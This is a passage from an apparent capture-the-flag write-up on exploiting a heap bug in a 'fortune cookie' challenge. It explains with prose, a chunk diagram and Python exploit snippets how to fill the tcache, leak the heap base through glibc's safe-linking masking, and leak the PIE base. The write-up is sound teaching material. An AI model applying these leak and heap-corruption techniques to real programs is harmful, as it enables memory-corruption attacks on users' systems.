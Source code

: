 Now we will fill the tcachebin for size 0x80 in the exact same way as above:
`create_cookie()` uses `calloc()` internally. Note that we can't just free
cookies 0, 1, 2, ... because list corruption will be detected, so we free
cookies 1, 3, 5, ...
```python
for i in range(7):
    delete_cookie(2*i + 1)
    create_cookie()
```

We will get a leak of the heap base address by reading inside the first
`free()`d cookie fortune, which is the last one in the appropriate tcachebin. We
will abuse the 'safe linking' pointer masking machenism introduces in glibc
2.32. Its forward pointer is `NULL`. With safe linking, this is stored as `NULL
^ (cookie_addr >> 12) = cookie_addr >> 12`: reading the cookie yields the base
address of the memory page where this chunk resides.

```
                   ┏━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
cookie_addr - 0x10 ┃ ...                       ┃ size | prev_inuse:   0x81 ┃
                   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━╋━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
cookie_addr        ┃ fwd ^ (cookie_addr >> 12) ┃ ...                       ┃
                   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
cookie_addr + 0x10 ┃ ...                                                   ┃
                   ┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
```

```python
def read_heap_leak(idx):
    r.sendline(b'4')
    r.recvuntil(b'Please enter a fortune index\n > ')
    r.sendline(str(idx).encode())
    r.recvuntil(b' ')
    s = r.recv(5) + b'\x00\x00\x00'
    r.recvuntil(b'-----------------------------------------')
    return u64(s) * 4096
heap_base = read_heap_leak(1)
```

We also need a leak of the program load address, because it is PIE and we will
need this leak to know where `.data` is in memory. Remember that each
`struct cookie_fortune` contains a pointer to its own entry in `c`: `free()`d
cookie fortune buffers still contain it. We will allocate a 0x70-sized buffer
with `ask_8ball` where there was a `cookie_fortune` and we will fill the chunk
until offset 0x68. When printing it, we will receive 0x68 bytes (our input)
followed by the address of an entry in `c`.

```python
# Will pick up first available chunk in the tcachebin, i.e. cookie 13
create_ball(b'A' * (0x68 - 17 - 1))
section_data_address = read_binary_leak(13) - 0x170
```

Now we will allocate a `cookie_fortune` from the top chunk, free it and
immediately consolidate that with the top chunk with the `scanf()` trick
explained above.
